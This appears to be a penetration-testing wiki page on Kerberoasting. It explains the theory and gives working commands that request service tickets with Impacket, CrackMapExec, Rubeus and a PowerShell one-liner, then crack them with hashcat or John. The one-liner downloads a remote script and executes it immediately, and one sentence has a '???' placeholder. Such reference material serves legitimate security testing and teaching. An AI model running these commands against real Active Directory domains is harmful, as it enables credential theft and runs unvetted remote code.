 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1558.003
---
```


# Kerberoast

## Theory

When asking the KDC \(Key Distribution Center\) for a Service Ticket, a.k.a. TGS \(Ticket Granting Service\), the requesting user needs to send a valid TGT \(Ticket Granting Ticket\) and the SPN \(Service Principal Name\) of the service wanted. If the TGT is valid, and if the SPN exists, the KDC sends the TGS to the requesting user.

The TGS is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a SPN for a service, he can request a TGS for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a TGS for this service and attempt to crack it offline. This is Kerberoasting.

## Practice

{% hint style="warning" %}
Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold \(valid domain credentials\).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) \(Python\) can perform all the necessary steps to request a TGS for a service given its SPN and valid domain credentials.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```

This can also be achieved with Powershell. Depending on the tool that the tester will use to attempt cracking the ???, the `-OutputFormat` can be set to `hashcat` or `john`.

```bash
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoastables.txt
```
{% endtab %}
{% endtabs %}

[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try cracking the hash.

```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Targeted Kerberoasting

If an attacker controls an account with the rights to add an SPN to another \([`GenericAll`](../abusing-aces/#genericall), [`GenericWrite`](../abusing-aces/#genericwrite)\), it can be abused to make that other account vulnerable to Kerberoast \(see [exploitation](../abusing-aces/targeted-kerberoasting.md)\).

## Resources

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

{% embed url="https://adsecurity.org/?p=2011" caption="" %}

